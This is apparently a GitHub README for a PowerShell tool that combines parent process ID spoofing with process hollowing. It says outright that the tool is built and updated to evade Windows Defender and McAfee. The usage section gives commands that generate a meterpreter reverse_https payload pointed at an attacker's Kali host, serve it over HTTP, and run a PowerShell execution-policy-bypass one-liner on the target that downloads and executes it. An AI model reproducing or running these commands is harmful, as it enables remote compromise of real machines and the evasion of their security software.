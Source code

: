 # PPID ⧓ ProcHollow
**A powershell script that performs parent process ID (PPID) spoofing and process hollowing**

```
                                        _____  _____ _____ _____                            
                                       |  __ \|  __ \_   _|  __ \                           
                                       | |__) | |__) || | | |  | |                          
           ((((((((*                   |  ___/|  ___/ | | | |  | |              /#######(         
        (((((((((((((((,               | |    | |    _| |_| |__| |              *##############(      
       ((((((((((((((((((((            |_|    |_|   |_____|_____/           .##################((     
      (((((((((((((((((((((((((                                         ######################(((    
      (((((((((((((((((((((((((((((     **                   /,     ##########################(((    
      ((((((((((((((((((((((((((((((((,     ************,,,     *#############################(((    
      ((((((((((((((((  ,(((((((((((((((,   ************,,,   ###############(,  #############(((    
      (((((((((((((((*                      ************,,,   ,                  (############(((    
      ((((((((((((((((((((((((((((((,       ************,,,       ,###########################(((    
      ((((((((((((((((((((((((((((((((((,   ************,,,   ################################(((    
      (((((((((((((((((((((((((((((.        ************,,,        ,(#########################(((    
      (((((((((((((((*                 ,.   ***********,,,,   /,                 #############(((    
      (((((((((((((((( ,((((((((((((((((,   ,,,,,,,,,,,,,,,   (((##############, #############(((    
      ((((((((((((((((((((((((((((((((      ,,,,,,,,,,,,,,,      ((((########################((((    
      ((((((((((((((((((((((((((((.     **                   /*     *((((###################(((((    
      ((((((((((((((((((((((((/     *///                      .///,     ((((#############((((((((    
       ((((((((((((((((((((     .////*                           /////      ((((((((((((((((((((     
        (((((((((((((((      //**.                                   ,**//      ((((((((((((((/      
           *(((((((        _____                _    _       _ _                      .(((((((.         
                          |  __ \              | |  | |     | | |              
                          | |__) | __ ___   ___| |__| | ___ | | | _____      __
                          |  ___/ '__/ _ \ / __|  __  |/ _ \| | |/ _ \ \ /\ / /
                          | |   | | | (_) | (__| |  | | (_) | | | (_) \ V  V / 
                          |_|   |_|  \___/ \___|_|  |_|\___/|_|_|\___/ \_/\_/  
```

The script has been hardcoded to search for a parent process (svchost.exe) that matches the current logged on user's privilege and spawns a child process (taskhostw.exe). Feel free to edit the script to take in arguments

*I have been using the v1.0 script for quite some time now but it recently triggered an alert for Windows Defender. Decided to improve it to evade again, enjoy script v1.1😀*

## Demo
Youtube (Higher resolution): https://www.youtube.com/watch?v=GB59m-KJvd0
![Alt text](480.gif?raw=true "Demo")

## Usage
1. Generate msfvenom payload
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=KALI_IP LPORT=443 EXITFUNC=thread -f ps1`
2. Search for `Your payload here` in the script and replace it with the generated payload
3. Host this file on your kali `python3 -m http.server 8088`
4. On your target machine `powershell -ep Bypass -c IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP:8088/payl64.ps1')`

## Disclaimer
The usage section might make it seem like a 'fileless' approach but it does write temporarly artifacts to disk. I know disk is lava🔥 but writing it this way seems to evade Window Defender/FireEye/McAfee😨

## Evading Windows Defender
- The v1.0 script creates an alert on Windows Defender upon launching cmd.exe from meterpreter shell. However, your meterpreter shell will still be **kept alive** despite the alert.
- The v1.1 script eradicates the issue of v1.0 and it also makes the process looks more legitimate by spawning it under another parent process through PPID Spoofing. However, EWT can still catch PPID Spoofing method.
- The v1.1 script has been tested on the latest Windows Defender (updated before testing the script)
    ![Alt text](WinDefSignatureUpdate.png?raw=true "Windows Defender using latest signature version")
- The v1.1 script has been tested on McAfee too
![Alt text](EvadeMcAfee.png?raw=true "McAfee")

## Change Logs
2022-12-10 -- v1.1
   - Integrated with PPID
   - Resolved v1.0 issue on alerting Windows Defender upon spawning cmd.exe from meterpreter shell (Evading latest Win Def as of 10 Dec 2022)

2021-09-18 -- v1.0
   - Simple Process Hollowing
   - Windows Defender alert pop up when launch cmd.exe but our meterpreter shell will not die (probably work to resolve this in next ver)


